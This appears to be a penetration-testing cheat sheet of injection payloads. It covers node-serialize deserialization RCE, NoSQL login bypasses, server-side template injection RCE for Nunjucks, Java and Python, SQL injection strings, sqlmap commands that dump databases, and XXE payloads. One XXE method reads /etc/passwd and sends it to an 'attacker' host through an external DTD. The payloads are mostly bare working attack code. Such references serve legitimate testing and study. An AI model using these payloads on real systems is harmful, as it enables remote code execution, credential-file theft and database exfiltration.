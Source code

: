 # Types

- Code Injection
- Deserialization Injection
- NoSQL Injection
- Server-Side Template Injection
- SQL Injection
- XML External Entity

# Deserialization Injection

## JavaScript

Payload Generator
```
var y = {
	rce : function(){
		require('child_process').exec('ping -c 1 ipaddress /', function(error, stdout,	stderr) { console.log(stdout) });
	},
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

# NoSQL Injection

Test Payload 1
`admin' || '' === '`

Test Payload 2
```
Content-Type: application/x-www-form-urlencoded
user=admin&password[$ne]=admin
```

Test Payload 3
```
Content-Type: application/json
{
	"user":"admin",
```

Test Payload 4
```
Content-Type: application/json
{
	"user":"admin",
	"password":{
		"$ne":"admin"
	}
}
```

# Server-Side Template Injection

## Nunjucks (NodeJS)

```
{{range.constructor("return global.process.mainModule.require('child_process').execSync('payload')")()}}
```

## Java

RCE Payload 1
```
*
{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('payload')
.getInputStream())}
```

## Python

Test Payload 1
`{{1+1}}` (Should eval to 2)

RCE Payload 1
`{{config.__class__.__init__.__globals__['os'].popen('payload').read()}}`

RCE Payload 2
```
{{self._TemplateReference__context.namespace.__init__.__globals__.os.popen("payload").read()}}
```

# SQL Injection

## Manual

Basic Error Test
`text'`

Confirm SQL Injection Possible (if error goes away)
Note: The last dash protects the trailing space, which can get removed otherwise
`text' -- -`

Circumvent Query Condition
`' OR 1=1;--`

## sqlmap

### Request

Save Request
`In burp, intercept the request, and right click > Save Item. (E.g.: request.req)`

Initial Tests (--batch accepts all defaults to prompts)
`sqlmap -r request.req --batch`

Check User Privs (E.g., FILE)
`sqlmap -r request.req --batch --privileges`

Enumerate databases
`sqlmap -r request.req --batch --dbs`

Get table names from dbname database
`sqlmap -r request.req -D dbname --tables`

Dump the tblname table
`sqlmap -r request.req -D dbname -T tblname --dump`

### CLI Spec

Login, Username Param
`sqlmap -u http://url/endpoint?action=login --data="username=abc&password=abc" -p username [--level 5 --risk 3 to find more options] --batch`

JSON API
`sqlmap -u "protocol:address:port" --data '{"param_name": "*"}' --dbs [--threads 10 for speed] [--level 5 --risk 3 to find more options] --batch`

# XML External Entity

## LFI Method 1

```
<?xml version="1.0" ?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<exampletag>&file;</exampletag>
```

## LFI Method 2

Create Payload
```
evil.dtd accessible via attacker web server:

<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">

<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://attacker/?p=%file;'>" >
```

Start web server

Inject Stager
```
<?xml version="1.0" ?>
<!DOCTYPE ANY [
<!ENTITY % remote SYSTEM 'http://attacker/evil.dtd'>%remote;%init;%trick;
]>
```
